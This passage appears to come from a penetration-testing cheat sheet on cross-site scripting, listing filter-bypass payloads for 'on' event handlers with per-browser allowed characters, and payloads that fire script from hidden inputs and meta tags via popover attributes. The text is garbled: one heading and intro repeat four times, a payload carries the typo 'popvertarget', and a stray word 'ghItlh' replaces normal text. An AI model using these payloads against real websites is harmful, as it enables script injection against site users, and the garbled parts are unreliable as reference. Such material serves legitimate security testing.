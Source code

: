 {% content-ref url="../reverse-tab-nabbing.md" %}
[reverse-tab-nabbing.md](../reverse-tab-nabbing.md)
{% endcontent-ref %}

### on Event Handlers Bypass

**First of all check this page ([https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)) for useful "on" event handlers.**
**In case there is some blacklist preventing you from creating this even handlers you can try the following bypasses:**
```javascript
<svg onload%09=alert(1)> //No safari
<svg %09onload=alert(1)>
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2c%3b=alert(1)>

//chars allowed between the onevent and the "="
IExplorer: %09 %0B %0C %020 %3B
Chrome: %09 %20 %28 %2C %3B
Safari: %2C %3B
Firefox: %09 %20 %28 %2C %3B
Opera: %09 %20 %2C %3B
Android: %09 %20 %28 %2C %3B
```
### XSS in "Unexploitable tags" (hidden input, link, canonical, meta)

From [**here**](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags) **it's now possible to abuse hidden inputs with:**

### XSS in "Unexploitable tags" (hidden input, link, canonical, meta)

From [**here**](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags) **it's now possible to abuse hidden inputs with:**

### XSS in "Unexploitable tags" (hidden input, link, canonical, meta)

From [**here**](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags) **it's now possible to abuse hidden inputs with:**

### XSS in "Unexploitable tags" (hidden input, link, canonical, meta)

From [**here**](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags) **it's now possible to abuse hidden inputs with:**
```html
<button popvertarget="x">Click me</button>
<input type="hidden" value="y" popover id="x" onbeforetoggle=alert(1)>
```
ghItlh **meta tags**:
```html
<!-- Injection inside meta attribute-->
<meta name="apple-mobile-web-app-title" content=""Twitter popover id="newsletter" onbeforetoggle=alert(2) />
<!-- Existing target-->
<button popovertarget="newsletter">Subscribe to newsletter</button>
<div popover id="newsletter">Newsletter popup</div>
```